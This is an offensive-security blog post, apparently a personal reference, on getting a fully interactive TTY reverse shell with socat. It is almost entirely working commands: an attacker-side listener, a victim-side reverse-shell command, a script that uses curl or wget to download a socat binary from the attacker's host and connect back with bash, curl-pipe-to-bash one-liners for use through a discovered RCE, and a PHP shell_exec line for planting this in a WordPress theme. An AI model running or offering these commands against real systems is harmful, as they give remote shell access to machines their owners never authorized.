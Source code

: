 ```yaml
---
title: Full TTY Shell with Socat
layout: post
author: hyprcub
tags: trick
---
```


# References

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Statically-linked binaries of various tools](https://github.com/andrew-d/static-binaries)

#  Introduction

This is a quick trick to get a full TTY reverse shell using [socat](http://www.dest-unreach.org/socat/) which is really an awesome tool. There's nothing new, it has already been described on [ropno's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldr-cheatsheet) to some extent. However, I wanted to put it here as a reference, at least for the way I use it most of the time.

# Principles

On the attacker's machine (listening mode):
```bash
sudo socat file:`tty`,raw,echo=0 tcp-listen:443
```
On the victim's machine (sending mode):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:443
```
where `LHOST` has to be replaced with attacker's IP.

# When you have some kind of RCE

1. Start your listener as above.
2. Serve a script file called `socat.sh` via HTTP, containing:
    ```bash
    #!/bin/sh

    LHOST=10.11.31.164 # change this
    LPORT=443 # change this
    DIR=/tmp # maybe also this

    # choose between curl or wget
    curl -s http://$LHOST/socat -o $DIR/socat
    #wget -q http://$LHOST/socat -O $DIR/socat
    chmod +x $DIR/socat
    $DIR/socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:$LHOST:$LPORT
    ```
3. You also have to serve a static version of `socat` you'll find [there](https://github.com/andrew-d/static-binaries/tree/master/binaries).
4. Then, on the victim's machine, via the RCE you discovered:
    ```bash
    curl -s http://LHOST/socat.sh | bash
    ```
    or
    ```bash
    wget -q http://LHOST/socat.sh -O - | bash
    ```
    
In a Wordpress theme PHP file, it could looks like this:
```php
shell_exec("curl -s http://LHOST/socat.sh | bash");
```
